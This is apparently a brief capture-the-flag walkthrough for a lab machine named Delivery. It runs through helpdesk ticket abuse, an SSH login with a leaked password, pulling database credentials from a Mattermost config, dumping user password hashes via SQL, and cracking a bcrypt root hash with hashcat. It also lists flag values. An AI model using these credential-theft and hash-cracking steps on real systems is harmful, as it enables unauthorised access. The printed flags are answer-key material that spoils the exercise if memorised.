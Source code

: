 Add 
```
10.129.227.221 helpdesk.delivery.htb delivery.htb
in C:\Windows\System32\Drivers\etc\hosts
```

- Create ticket in http://helpdesk.delivery.htb/
- Create mail in http://delivery.htb:8065/ using the above mailid
- Check ticket thread for the activation of mail
- You get the ssh password

```
sshpass -p Youve_G0t_Mail! ssh maildeliverer@delivery.htb
```

```
cat user.txt
8686195fe24f4c74ef9437fa27f431de
```

```
ls /opt/mattermost/config/config.json
cat config.json | grep "Data"

Password is Crack_The_MM_Admin_PW
```

```
mysql -u mmuser -p

show databases;                  
+--------------------+           
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.001 sec)
use mattermost;
select Username, Password FROM Users;
```

```
root hash - $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```

```
cat wordlists
PleaseSubscribe!21

hashcat -a 0 -m 3200 hashes wordlists -r /usr/share/hashcat/rules/best64.rule 
```

```
cat user.txt

cf7ffe0e270cdd27e85ec520125d5d5c
```